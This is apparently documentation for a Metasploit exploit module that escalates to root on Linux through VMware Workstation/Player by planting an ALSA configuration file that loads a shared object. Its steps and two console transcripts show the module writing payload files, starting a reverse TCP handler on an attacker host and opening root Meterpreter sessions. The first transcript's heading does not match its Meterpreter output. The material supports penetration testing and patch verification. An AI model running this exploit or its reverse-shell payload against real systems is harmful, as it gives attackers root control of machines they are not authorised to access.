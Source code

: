 ## Description

  This module exploits a vulnerability in VMware Workstation Pro and
  Player on Linux which allows users to escalate their privileges by
  using an ALSA configuration file to load and execute a shared object
  as `root` when launching a virtual machine with an attached sound card.


## Vulnerable Application

  VMware Workstation Pro and VMware Workstation Player are the industry
  standard for running multiple operating systems as virtual machines on
  a single PC. Thousands of IT professionals, developers and businesses
  use Workstation Pro and Workstation Player to be more agile, more
  productive and more secure every day.

  This module has been tested successfully on:

  * VMware Player version 12.5.0 on Debian Linux 8 Jessie


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/vmware_alsa_config`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new `root` session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)

### Xdisplay

  Display exploit will attempt to use (default: `:0`)


## Scenarios

### Command Shell Session - VMware Player 12.5.0 (Debian 8 Jessie)

  ```
  msf > use exploit/linux/local/vmware_alsa_config 
  msf exploit(linux/local/vmware_alsa_config) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(linux/local/vmware_alsa_config) > set session 1
  session => 1
  msf exploit(linux/local/vmware_alsa_config) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/pSvQHD5S5fh/afLaYVIoUm.so.c' (526 bytes) ...
  [*] Writing '/tmp/pSvQHD5S5fh/pSvQHD5S5fh.vmx' (560 bytes) ...
  [*] Writing '/tmp/pSvQHD5S5fh/jl7XmpZWdE' (964720 bytes) ...
  [*] Writing '/home/user/.asoundrc' (116 bytes) ...
  [*] Launching VMware Player...
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.208:57796) at 2018-12-17 02:43:22 -0500
  [+] Deleted /home/user/.asoundrc
  [+] Deleted /home/user/Desktop/~/.vmware/preferences
  [!] Attempting to delete working directory /tmp/pSvQHD5S5fh
  [-] Exploit failed: negative array size (or size too big)

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.208
  OS           : Debian 8.8 (Linux 3.16.0-4-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

### Meterpreter Session - VMware Player 12.5.0 (Debian 8 Jessie)

  ```
  msf > use exploit/linux/local/vmware_alsa_config 
  msf exploit(linux/local/vmware_alsa_config) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(linux/local/vmware_alsa_config) > set session 1
  session => 1
  msf exploit(linux/local/vmware_alsa_config) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/5irkXF31Iw/GHAPsWBkjix.so.c' (527 bytes) ...
  [*] Writing '/tmp/5irkXF31Iw/5irkXF31Iw.vmx' (558 bytes) ...
  [*] Writing '/tmp/5irkXF31Iw/Rxqj9taEcXol' (964720 bytes) ...
  [*] Writing '/home/user/.asoundrc' (116 bytes) ...
  [*] Launching VMware Player...
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.208:57799) at 2018-12-17 02:46:39 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.208
  OS           : Debian 8.8 (Linux 3.16.0-4-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

